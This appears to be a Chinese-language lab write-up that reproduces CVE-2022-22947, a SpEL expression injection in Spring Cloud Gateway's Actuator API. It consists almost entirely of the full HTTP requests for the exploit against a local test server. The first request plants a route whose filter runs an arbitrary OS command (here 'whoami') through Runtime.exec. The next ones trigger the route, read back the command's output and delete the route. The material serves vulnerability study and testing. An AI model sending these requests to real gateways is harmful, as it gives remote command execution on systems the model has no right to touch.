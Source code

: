 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。


## 漏洞环境

[环境搭建过程](环境搭建)

服务启动后，访问`http://your-ip:9000`即可看到演示页面  

## 漏洞复现


1. 首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```
![image1](images/1.png)

2. 发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image1](images/2.png)

3. 发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image1](images/3.png)

4. 最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```
![image1](images/4.png)

## poc 输出结果
![poc 输出](images/poc.png)